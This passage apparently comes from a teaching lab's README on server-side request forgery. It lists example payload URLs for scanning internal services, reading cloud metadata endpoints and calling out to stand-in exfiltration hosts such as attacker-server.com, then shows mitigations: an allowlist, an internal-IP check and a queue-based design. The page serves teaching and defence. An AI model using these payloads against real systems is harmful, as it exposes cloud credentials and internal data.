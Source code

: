 
## 📊 **Attack Payloads Examples**

### **Internal Service Scanning:**
```
http://localhost:8081/api/users          # User service
http://localhost:8082/admin/products/    # Product admin
http://localhost:8083/api/inventory/1/M  # Inventory service
http://localhost:5433                     # PostgreSQL user DB
http://localhost:5434                     # PostgreSQL product DB
```

### **Cloud Metadata (AWS/Azure/GCP):**
```
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://metadata.google.internal/computeMetadata/v1/
```

### **External Callbacks (Data Exfiltration):**
```
http://attacker-server.com/steal?data=sensitive
http://burp-collaborator.example.com
http://webhook.site/your-unique-url
```

---

## 🔒 **Mitigation (For Learning)**

### **How to Fix SSRF:**

1. **URL Whitelist:**
```python
ALLOWED_DOMAINS = ['payment-gateway.com', 'warehouse-api.com']

def is_safe_url(url):
    parsed = urlparse(url)
    return parsed.hostname in ALLOWED_DOMAINS
```

2. **Block Internal IPs:**
```java
private boolean isInternalIP(String url) {
    URL parsed = new URL(url);
    InetAddress addr = InetAddress.getByName(parsed.getHost());
    return addr.isSiteLocalAddress() || addr.isLoopbackAddress();
}
```

3. **Use Dedicated Service:**
```python
# Thay vì gọi trực tiếp, gửi qua message queue
publish_event('purchase.completed', {
    'product_id': product_id,
    'callback_url': callback_url  # Validated by queue worker
})
```

---